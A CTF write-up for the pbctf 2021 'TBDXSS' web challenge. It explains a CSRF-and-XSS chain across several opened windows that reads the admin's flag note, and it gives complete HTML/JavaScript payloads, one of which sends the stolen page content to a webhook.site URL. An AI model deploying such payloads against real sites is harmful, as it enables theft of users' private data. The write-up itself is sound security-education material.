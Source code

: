 # pbctf 2021 - web tasks writeup

## Intro

Last week [we](https://ctftime.org/team/130817) played [pbctf 2021](https://ctftime.org/event/1371) and had fun solving those hard challenges. Web challenges were enjoyable😋 meanwhile difficult🤕.

## TBDXSS

> 29 solves
> Author: Jazzy
> Description: The TBD in the challenge name stands for ....

Just a normal note app we can change our note by sending a POST request to `/change_note` then view it in `/note`
`/note` in admin account contains the flag and also vulnerable to XSS, the goal is to get the note by using using a CSRF bug inside `/change_note` to get `/note` but the problem is if we change the note to an xss payload we will lost the flag, so we need to have a copy of `/note` then after we change the note to our xss payload we can steal `/note` 

There is a trick that we can use multiple iframes poiniting to `/note` then with `top.frames[0]` get the content but the page had XFO set to deny, we need to use `window.open()` Headless chrome support open() by default no need for user interaction.

- first window embeds a loading image to hang the browser and opens the second window
- second window opens the third window and redirect itslef to /note 
- third window will open a new window to submit the csrf form and the forth window pointing to /note which our xss will trigger
- forth window will use opener.opener to access /note that contains the flag of admin and send it using a webhook

first:
```html
<img src=https://httpstat.us/200?sleep=9000>

<script>

window.open('mydomain/second.html','tr')

</script>
```
second:
```html

<script>

window.open('mydomain/third.html','j')

setTimeout(function(){location='https://tbdxss.chal.perfect.blue/note?2'},500)
</script>
```
third:
```html
<form id=jj method=post target=s action=https://tbdxss.chal.perfect.blue/change_note>
<input name=data value="xss<img src=x onerror=&quot;setTimeout(function(){fetch('https://webhook.site/ffc75ac7-840b-41bd-b6c3-890343307ea0?x='+btoa(opener.opener.document.body.innerHTML))},1000)&quot;><img src=https://httpstat.us/200?sleep=9000>">
</form>
<img src=x onerror="
let s=window.open('https://tbdxss.chal.perfect.blue/note','s')

setTimeout(function(){jj.submit()},600)
fetch('https://webhook.site/ffc75ac7-840b-41bd-b6c3-890343307ea0?start=start')
setTimeout(function(){let x= window.open('https://tbdxss.chal.perfect.blue/note','x')},1000)
```